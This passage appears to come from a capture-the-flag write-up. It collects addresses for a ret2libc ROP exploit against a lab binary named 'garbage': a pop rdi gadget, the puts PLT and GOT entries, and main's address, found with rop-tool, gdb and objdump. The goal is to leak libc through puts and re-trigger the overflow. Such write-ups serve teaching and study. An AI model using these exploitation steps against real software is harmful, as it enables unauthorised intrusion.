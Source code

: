 

    root@kali# rop-tool gadget garbage | grep rdi
     0x000000000040179b -> pop rdi; ret ; 



#### puts PLT and GOT

I need the `puts` PLT address. This is the address I'll see in the main
code when I run `disassemble main` in `gdb`:



    gdb-peda$ disassemble main
    Dump of assembler code for function main:
    ...[snip]...
       0x000000000040164a <+49>:    lea    rdi,[rip+0xb3f]        # 0x402190
       0x0000000000401651 <+56>:    call   0x401050 <puts@plt>



I also need the address in the GOT for `puts`. This will hold the
pointer to `puts` in libc, and is what I want to leak. If I run
`disassemble [plt address]`, I can see the code there:



    gdb-peda$ disassemble 0x401050
    Dump of assembler code for function puts@plt:
       0x0000000000401050 <+0>:     jmp    QWORD PTR [rip+0x2fd2]        # 0x404028 <puts@got.plt>
       0x0000000000401056 <+6>:     push   0x2
       0x000000000040105b <+11>:    jmp    0x401020
    End of assembler dump.



And that code shows the GOT address, 0x404028.

I can more easily get these two addresses by running `objdump`:



    root@kali# objdump -D garbage | grep puts@GLIBC
      401050:       ff 25 d2 2f 00 00       jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>



The PLT address is at the start of the line, and the GOT is at the end.

#### Main

I also need the address of main, so that I can start the program over
and get a second chance to overflow it without the ASLR resetting. I can
`disassemble main` and get it, or get it with `objdump`:



    root@kali# objdump -D garbage | grep '<main>'
    0000000000401619 <main>:



Were PIE enabled, this address would change on each run, but as it
isn't, it will be static.
